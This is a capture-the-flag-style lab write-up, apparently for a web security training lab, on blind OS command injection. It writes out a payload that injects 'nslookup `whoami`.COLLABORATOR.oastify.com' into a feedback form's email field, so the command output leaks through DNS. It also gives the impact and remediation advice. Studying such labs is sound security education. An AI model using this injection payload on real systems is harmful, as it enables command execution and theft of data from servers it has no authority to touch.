



# Lab: Blind OS Command Injection with Out-of-Band Data Exfiltration

## 📌 Summary
The application is vulnerable to Blind OS Command Injection, which allows for Out-of-Band Data Exfiltration.

By using backticks (`) or command substitution, an attacker can execute a command (like `whoami`) and append its output as a subdomain to a DNS lookup. This allows the attacker to read the command output directly from their own server logs.

---

## 🧾 Description
This lab takes "Blind Injection" to the next level. Usually, we can't see the response of our commands on the screen. However, by crafting a specific payload, we can force the server to execute a command and send the result to us via a DNS query.

In this case, the email field is exploited. We use `nslookup` combined with the command `whoami`. The server tries to resolve a domain name that actually contains the username of the system, which then appears in our Burp Collaborator dashboard.

---

## 🔁 Steps to Reproduce

1. Navigate to the **Submit feedback** page and fill out the form.

2. Intercept the request in Burp Suite and send it to Repeater.

3. Open the Collaborator tab and copy your unique OAST domain.

4. Modify the `email` parameter in the request body with the following payload:

```http
email=sam%40gmail.com%26+nslookup+`whoami`.YOUR-COLLABORATOR-ID.oastify.com+%26
````

> **Note:** The backticks `` `whoami` `` tell the shell to execute the command first and place the result into the URL.

5. Send the request and wait for the `200 OK` response.

6. Go to the Collaborator tab and click **"Poll now"**.

7. Look at the DNS query details. You will see a lookup for a domain like:

```text
peter-mNEMQb.YOUR-ID.oastify.com
```

8. The prefix (e.g., `peter-mNEMQb`) is the output of the `whoami` command.

---

## 📸 Proof of Concept (PoC)

### 1. Crafting the Exfiltration Payload



### 2. Capturing the Exfiltrated Data



### 3. Lab Successfully Solved



---

## 💥 Impact

This is a Critical vulnerability because it bypasses the "Blind" nature of the injection:

* **Information Disclosure:**
  Attackers can leak usernames, passwords, or configuration files by sending them out via DNS.

* **Bypassing Firewalls:**
  Many firewalls block outgoing HTTP traffic but allow DNS queries, making this a stealthy way to steal data.

* **Full System Reconnaissance:**
  An attacker can systematically map out the entire environment and user privileges.

---

## 🛠️ Remediation

### Input Sanitization

Strictly filter the email field to disallow special characters like backticks (`), ampersands (`&`), and semicolons (`;`).

### Use Parameterized APIs

Avoid using the shell to process application logic. Use language-specific libraries that don't invoke a command interpreter.

### Restrict Outbound Traffic

Configure the server's firewall to block or strictly limit outgoing DNS and HTTP requests to unknown external domains.
